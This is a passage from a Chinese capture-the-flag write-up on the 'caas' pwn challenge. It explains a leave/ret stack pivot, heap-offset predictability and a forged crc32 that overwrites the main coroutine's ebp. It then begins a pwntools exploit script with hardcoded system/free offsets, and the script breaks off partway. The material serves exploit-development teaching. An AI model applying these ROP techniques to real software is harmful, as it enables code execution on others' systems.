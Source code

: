 很明显，执行到leave的时候，会把esp设为+0x00处地址，然后pop ebp，可以接着继续控制ROP。这是一个ROP技巧，只要能通过这种方式控制ebp，就可以一直通过将返回地址设为leave/ret，实现几个函数的连续调用（注意，根据调用约定，任何libc的函数都不会改变ebp的值）。

所以最后一步：（接着上面的）

13. yield，这个时候会用我们的fake job struct中的数据计算crc32，写到主协程的ebp中。然后yield切换回主协程时，ebp已经被篡改，进入我们的ROP

## 0x07 exp编写

还有一点，堆分配出来的地址，在一定情况下，是确定的。即，只要确定堆基址，然后堆分配操作顺序一定，出来的相对堆基址的偏移必然一样。

不过我在调试的时候，出现了问题：就是当我直接命令行运行程序或者用gdb调试，与用pwntools运行程序，堆分配的偏移会不一样。但是在服务器上，是一样的。不知道是什么原因，如果有大神知道，可以一起讨论。

好了，接着，我们用gdb调试，获取到主协程ucontext\_t，第一个job和第二个job输入的地址，然后记录下worker1和worker2的地址，然后readelf找到system和free的偏移，就可以上手写exp了。

顺便说一下，这个题目是给一个shell，但是权限不够cat flag，所以要通过get这个程序的shell拿到flag。因为这个原因，我们可以用这个shell，下载并开启gdb peda，获取到以上的信息，写入exp

exp如下：

```python
from pwn import *

g_local = False
if g_local:
	sh=process("./caas")
	WORKER1_ADDR = 0x1170#0x570
	WORKER2_ADDR = 37592#0x86d8
	WORKER1_SIGN = 0x170#0x570
	JOB1_CONTENT_ADDR = 0x11440#0x10840
	JOB2_CONTENT_ADDR = 0x11500#0x10900
	SYSTEM_ADDR = 0x0003ada0#0x3ada0
	FREE_ADDR = 0x71470#0x71470
else:
	sh=process("/problems/4e35adf4276b6c2f727f265de95d588b/caas")
	WORKER1_ADDR = 0x168
	WORKER2_ADDR = 0x82d0
	WORKER1_SIGN = WORKER1_ADDR
	JOB1_CONTENT_ADDR = 0x10438
	JOB2_CONTENT_ADDR = 0x104f8
	SYSTEM_ADDR = 0x3e3e0
	FREE_ADDR = 0x76110

heap_base_addr = None

MAIN_EBP_ADDR = 0x034


CHUNK_SIZE = 128

crc32_to_bytes = {}

def crack_crc32(crc32val):
	global crc32_to_bytes
	if (crc32val in crc32_to_bytes):
		return crc32_to_bytes[crc32val]
	cracksh = process("./crack_crc32")
	cracksh.send(str(crc32val) + "\n")
	ret = p32(int(cracksh.recv(), 16))
	cracksh.close()
	crc32_to_bytes[crc32val] = ret
	return ret

def parse_addr(addr_str):
	if (len(addr_str) >= 4):
```